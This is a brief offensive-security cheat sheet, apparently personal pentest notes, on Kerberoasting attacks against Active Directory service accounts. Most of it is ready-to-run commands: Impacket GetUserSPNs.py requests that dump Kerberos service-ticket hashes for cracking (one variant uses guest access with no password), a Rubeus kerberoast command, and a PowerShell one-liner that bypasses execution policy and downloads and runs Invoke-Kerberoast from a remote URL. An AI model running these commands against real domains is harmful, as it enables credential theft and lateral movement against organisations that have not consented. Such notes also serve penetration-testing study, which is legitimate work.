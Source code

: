 **Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py domain.local/USER:PASSWORD@x.x.x.xP {-dc-ip} x.x.x.x -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```bash
GetUserSPNs.py domain.local/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip x.x.x.x -no-pass
```

Kerberoasting (from computer on the domain):

```powershell
.\Rubeus.exe kerberoast /nowrap
```

One liner from a domain connected Windows machine:

```bash
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

Create an SPN:

```bash
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```




